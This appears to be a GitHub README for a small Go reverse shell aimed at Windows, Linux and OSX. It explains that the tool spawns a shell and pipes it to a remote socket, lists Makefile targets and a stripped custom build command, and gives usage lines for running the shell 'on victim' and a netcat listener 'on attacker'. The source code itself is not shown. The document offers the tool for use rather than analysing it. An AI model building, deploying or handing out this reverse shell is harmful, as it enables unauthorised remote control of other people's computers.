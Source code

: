 # Go reverse shell for Win/Linux/OSX
 
-------------- 

Small Go reverse shell for Windows, Linux and OSX.
Calls the given shell (`shellPath`) and redirects std-pipes to communicate with the server socket.
Tested with `go1.12`.

Similar reverse shells and partially based on:

* `https://gist.github.com/moloch--/86068b6019ff5e3280725230dcafa892`
* `https://github.com/FireFart/goshell`

## Usage & Building

### Building

Create a executables with `Makefile`:

* for Windows: `make win`
* for Windows with Powershell: `make winps`
* for Linux: `make linux`
* for OSX: `make osx`

#### Custom Build

`GOOS=<ARCH> go build -ldflags "-s -w -X main.shellPath=<PATH>" -o shell *.go`

### Usage

* On victim: `./shell <IP> <PORT>`
* On attacker: `nc -lvp <PORT>`